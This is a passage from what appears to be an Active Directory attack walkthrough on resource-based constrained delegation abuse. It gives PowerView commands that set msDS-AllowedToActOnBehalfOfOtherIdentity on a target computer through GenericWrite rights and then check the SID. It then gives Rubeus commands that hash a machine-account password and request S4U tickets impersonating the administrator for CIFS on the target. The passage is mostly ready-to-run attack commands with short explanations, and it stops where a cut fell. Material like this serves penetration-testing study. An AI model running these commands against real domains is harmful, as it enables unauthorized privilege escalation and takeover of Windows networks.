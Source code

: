 Setting msds-allowedtoactonbehalfofotheridentity -

```powershell
Get-DomainComputer "target$" | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Remember that it is not normally possible to set the msDS-AllowedToActOnBehalfOfOtherIdentity property for an arbitrary computer account. However, since our dave user has the GenericWrite access rights, we can set this property.

We can also use this attack vector with GenericAll, WriteProperty, or WriteDACL access rights

3. Verifying the SID in the SecurityDescriptor :

```powershell
$RBCDbytes = Get-DomainComputer "target$" -Properties 'msdsallowedtoactonbehalfofotheridentity' | select -expand msdsallowedtoactonbehalfofotheridentity
```

```powershell
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor - ArgumentList $RBCDbytes, 0
```

```powershell
$Descriptor.DiscretionaryAcl
```

```powershell
ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-2101
```

4. Now we can begin our attack.We’ll start by obtaining the hash of the computer account password with Rubeus:

```powershell
.\Rubeus.exe hash /password:h4x
```

Request the "impersonation" service ticket using RC4 Key :

```powershell
.\Rubeus.exe s4u /user:naspster$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/target /ptt
```

After obtaining the TGT for the napster machine account, S4U2Self will then request a forwardable service ticket as the administrator user to the napster computer account.

Finally, S4U2Proxy is invoked to request a TGS for the CIFS service on the target as the administrator user, after which it is injected into memory.

To check the success of this attack, we can dump any loaded Kerberos tickets with klist:

---
---

Abuse Using [PowerShell ActiveDirectory module](https://github.com/samratashok/ADModule)'s cmdlets :

- Add a new machine :
